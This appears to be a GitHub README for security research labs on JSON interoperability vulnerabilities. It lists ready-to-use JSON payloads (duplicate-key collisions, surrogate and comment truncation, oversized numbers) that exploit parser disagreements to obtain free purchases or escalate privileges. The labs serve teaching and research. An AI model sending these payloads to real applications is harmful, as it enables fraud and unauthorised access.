

# JSON Interoperability Vulnerability Labs

<p align="center">
  
</p>


### Description
These are the companion labs to my research article ["An Exploration of JSON Interoperability Vulnerabilities"](https://labs.bishopfox.com/tech-blog/an-exploration-of-json-interoperability-vulnerabilities).

[Lab 1: Free purchases in an E-commerce Application](lab1/)
* Key Collision Attacks: Inconsistent Duplicate Key Precedence
* Inconsistent Large Number Representations

[Lab 2: Privilege Escalation in a Multi-tenant Application](lab2/)
* Key Collision Attacks: Character Truncation


These labs bind to host ports 5000-5004, by default.

### Attack Techniques

#### 1\. Key Collisions

**Inconsistent Duplicate Key Precedence**

```
{"qty": 1, "qty": -1}
```

**Character Truncation**

Truncation in last-key precedence parsers (flip order for first-key precedence)
```
{"qty": 1, "qty\<raw \x0d byte here>": -1}
{"qty": 1, "qty\ud800": -1} # Any unpaired surrogate U+D800-U+DFFF
{"qty": 1, "qty"": -1}
{"qty": 1, "qt\y": -1}
```
**Comment Truncation**

These documents take advantage of inconsistent support of comments and quote-less string support:
```
{"qty": 1, "extra": 1/*, "qty": -1, "extra2": 2*/}
{"qty": 1, "extra": a/*, "qty": -1, "extra2": b*/}
{"qty": 1, "extra": "a/*", "qty": -1, "extra2": "b"*/}
{"qty": 1, "extra": "a"//, "qty": -1}
```

#### 2\. Number Decoding

**Inconsistent Large Number Decoding**

These large numeric values may be converted to Strings (e.g., "+Infinity"), which may lead to type-juggling vulnerabilities. Or, they may be converted to MAX_INT/MIN_INT, rounded values, or 0, which may allow a bypass of business logic.
```
{"qty": 999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999}
{"qty": -999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999}
{"qty": 1.0e4096}
{"qty": -1.0e4096}
```

### Author

Twitter: [@theBumbleSec](https://twitter.com/theBumbleSec)

GitHub: [the-bumble](https://github.com/the-bumble/)
